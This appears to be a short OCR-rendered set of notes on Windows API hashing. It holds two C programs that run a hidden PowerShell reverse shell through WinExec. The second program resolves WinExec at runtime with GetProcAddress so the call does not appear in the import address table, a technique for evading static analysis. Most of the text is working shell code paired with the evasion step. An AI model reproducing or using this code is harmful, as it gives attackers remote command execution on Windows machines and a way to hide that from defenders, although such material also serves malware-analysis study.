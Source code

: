 # windows api hashing

https://trikkss.github.io/posts/hiding_windows_api_calls_part1/

Windows code for reverse shell
```c
#include <windows.h>

int main(void){
    WinExec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()\"", SW_HIDE);
    return 0;

}
```

before a function is used libraries will be loaded in memory and their function addresses will be referenced in the import address table (IAT)

If we look into our import table (I used CFF Explorer to do it) we can see several imported DLLs and our suspicious function (WinExec)

CFF explorere can be used to look at the import address table

first way to fide our function would be to retreive its address at runtime

```c
#include <windows.h>

typedef UINT(WINAPI* winexec)(LPCSTR lpCmdLine, UINT uCmdShow);

int main(void)
{
    // get handle of kernel32.dll
    HMODULE kernel32_dll = GetModuleHandle("kernel32.dll");
    // parse it to find the WinExec function
    winexec WinExec_imported = (winexec)GetProcAddress(kernel32_dll, "WinExec");
    // execute our reverse shell
    WinExec_imported("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()\"", SW_HIDE);
    return 0;
}

```

but this can be read by ghidra